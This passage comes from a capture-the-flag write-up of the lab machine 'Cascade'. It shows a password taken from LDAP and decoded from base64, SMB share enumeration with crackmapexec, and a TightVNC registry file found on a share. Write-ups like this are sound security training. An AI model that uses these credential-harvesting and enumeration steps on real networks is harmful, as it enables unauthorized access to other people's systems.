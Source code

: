~~~
Nmap done: 1 IP address (1 host up) scanned in 194.98 seconds

~~~

In LDAP we can find the password for the user r.thompson

![Screenshot]({{ site.baseurl }}/images/2020-07-25-htb-cascade/img1.png)

~~~
root@kali:~# echo "clk0bjVldmE=" | base64 -d
rY4n5eva
~~~

With the password “rY4n5eva” , we can access smb as user r.thompson. There are several shares we can read:

~~~
root@kali:~/Desktop/file# crackmapexec smb 10.10.10.182  -u r.thompson -p rY4n5eva --shares
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domailse)
SMB         10.10.10.182    445    CASC-DC1         [+] CASCADE\r.thompson:rY4n5eva 
SMB         10.10.10.182    445    CASC-DC1         [+] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$                          
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ            
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share
~~~

Using smbclient, we can access the Data share and find a lot of files:

![Screenshot]({{ site.baseurl }}/images/2020-07-25-htb-cascade/img3.png)

There is an intesting file in \IT\Temp\s.smith:

![Screenshot]({{ site.baseurl }}/images/2020-07-25-htb-cascade/img4.png)

~~~
root@kali:~/Desktop/file# cat VNC\ Install.reg 
��Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
"ExtraPorts"=""
"QueryTimeout"=dword:0000001e
"QueryAcceptOnTimeout"=dword:00000000
"LocalInputPriorityTimeout"=dword:00000003
"LocalInputPriority"=dword:00000000
"BlockRemoteInput"=dword:00000000
"BlockLocalInput"=dword:00000000
"IpAccessControl"=""
"RfbPort"=dword:0000170c
"HttpPort"=dword:000016a8
"DisconnectAction"=dword:00000000
"AcceptRfbConnections"=dword:00000001
"UseVncAuthentication"=dword:00000001
"UseControlAuthentication"=dword:00000000
"RepeatControlAuthentication"=dword:00000000
"LoopbackOnly"=dword:00000000
~~~